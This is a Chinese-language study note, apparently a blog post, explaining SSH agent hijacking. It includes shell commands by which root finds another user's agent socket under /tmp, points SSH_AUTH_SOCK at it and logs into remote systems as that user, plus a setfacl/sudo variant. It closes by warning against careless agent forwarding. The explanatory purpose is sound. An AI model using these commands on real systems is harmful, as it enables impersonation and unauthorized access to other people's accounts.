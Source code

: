title:SSH学习笔记之--Agent Hijacking 
Date: 2015-08-27 10:20
Modified: 2015-08-27 10:20
Tags: SSH, anget hijacking
Slug: ssh-agent-hijacking 
image: {photo}Hand of Midas/hijacking.jpg
####Agent Hijacking
agent forwarding在安全方面有一个好处就是用户的私钥永远不会出现在远端服务器或者传输过程中。但却会面临另外一个安全隐患：agent hijacking
	  
ssh实现的每一个方式都会提供一种让client向agent请求服务的机制，在UNIX/Linux上是用/tmp/文件夹下面的UNIX domain socket实现的。  
	
这个文件是被系统重度保护的，只有当前进程的用户才能访问，并且被保护在相应地子文件夹下面。但是任何措施都不能防止root用户访问任何一个文件。  
	
root用户可以通过该domain socket连接该socket对应的用户能够访问的任何机器，并且是以这个用户的身份。  
	
下面是简单的实现方式：

    :::bash
	ls -l /tmp/ssh*      #look for somebody's agent socket
	/tmp/ssh-CXkd6094:
	total 24
	srwxr-xr-x    1 steve    steve           0 Aug 30 08:46 agent.6094=
		
	export SSH_AUTH_SOCK=/tmp/ssh-CXkd6094/agent.6094

	ssh steve@remotesystem

	remote$                  # Gotcha! Logged in as "steve" user on remote system!

如果没有root权限也没关系，可能你有sudo的权限，同样下面的操作也可以完成相同的目的：  

    :::bash
	localhost$ ssh -A user@host
	$ setfacl -m otheruser:x   $(dirname "$SSH_AUTH_SOCK")
	$ setfacl -m otheruser:rwx "$SSH_AUTH_SOCK"
	$ sudo su - otheruser
	$ ssh server
	otheruser@server$

目前没有任何技术手段防止root用户劫持SSH agent socket，所以鉴于安全方面的考虑，慎用ssh angent forwarding.
